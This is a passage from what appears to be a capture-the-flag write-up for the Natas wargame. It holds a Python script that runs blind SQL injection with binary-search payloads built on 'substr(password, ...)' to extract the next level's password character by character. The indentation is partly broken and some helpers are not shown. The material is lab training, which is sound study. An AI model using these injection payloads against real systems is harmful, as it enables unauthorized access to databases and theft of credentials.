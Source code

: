     	
    def search(alphabet, lo, hi, position, verbose=False):
        if hi < lo:
    	return "Not found"
        index  = (hi + lo) // 2
        inject_greater = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) > "' + alphabet[index] + '" ##'
    	
        inject_equal = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) = "' + alphabet[index] + '" ##'
    	
        inject_less = 'natas16" AND BINARY substr(password, ' + str(position) + ', 1) < "' + alphabet[index] + '" ##'
        if check(inject_equal, verbose):
    	return alphabet[index]
        elif check(inject_greater, verbose): 
    	return search(alphabet, index + 1, hi, position, verbose)
        elif check(inject_less, verbose):
    	return search(alphabet, lo, index - 1, position, verbose)
        else:
    	return "Something went wrong"
    	 
    position = 1
    password = ""
    verbose = False
    while True:

        result = search(alphabet, 0, len(alphabet)-1, position, verbose)	
        print(f"RESULT: { result } ") 
        if len(result) > 1:
       	break

        password += str(result)
        position += 1

    print(f"The password for natas16 is { password }")
    ```

- The output for the above code is as follows:

    ![images/cropped.png](images/cropped.png)
